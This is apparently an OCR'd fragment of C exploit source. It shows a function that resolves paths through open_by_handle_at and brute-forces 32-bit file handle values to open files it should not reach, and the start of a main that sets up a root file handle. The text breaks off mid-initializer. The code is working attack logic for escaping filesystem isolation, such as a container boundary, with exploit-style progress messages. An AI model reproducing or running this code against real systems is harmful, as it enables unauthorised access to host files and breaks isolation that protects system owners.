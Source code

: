 ```C
  path = strchr(path, '/');
  // recursion stops if path has been resolved
  if (!path) {
    memcpy(oh -> f_handle, ih -> f_handle, sizeof(oh -> f_handle));
    oh -> handle_type = 1;
    oh -> handle_bytes = 8;
    return 1;
  }
  ++path;
  fprintf(stderr, "[*] Resolving '%s'\n", path);
  if ((fd = open_by_handle_at(bfd, (struct file_handle * ) ih, O_RDONLY)) < 0)
    die("[-] open_by_handle_at");
  if ((dir = fdopendir(fd)) == NULL)
    die("[-] fdopendir");
  for (;;) {
    de = readdir(dir);
    if (!de)
      break;
    fprintf(stderr, "[*] Found %s\n", de -> d_name);
    if (strncmp(de -> d_name, path, strlen(de -> d_name)) == 0) {
      fprintf(stderr, "[+] Match: %s ino=%d\n", de -> d_name, (int) de -> d_ino);
      ino = de -> d_ino;
      break;
    }
  }
  fprintf(stderr, "[*] Brute forcing remaining 32bit. This can take a while...\n");
  if (de) {
    for (uint32_t i = 0; i < 0xffffffff; ++i) {
      outh.handle_bytes = 8;
      outh.handle_type = 1;
      memcpy(outh.f_handle, & ino, sizeof(ino));
      memcpy(outh.f_handle + 4, & i, sizeof(i));
      if ((i % (1 << 20)) == 0)
        fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de -> d_name, i);
      if (open_by_handle_at(bfd, (struct file_handle * ) & outh, 0) > 0) {
        closedir(dir);
        close(fd);
        dump_handle( & outh);
        return find_handle(bfd, path, & outh, oh);
      }
    }
  }
  closedir(dir);
  close(fd);
  return 0;
}
int main(int argc, char * argv[]) {
  char buf[0x1000];
  int fd1, fd2;
  struct my_file_handle h;
  struct my_file_handle root_h = {
    .handle_bytes = 8,
    .handle_type = 1,
    .f_handle = {
      0x02,
      0,
      0,
      0,
      0,
      0,
      0,
      0
    }
```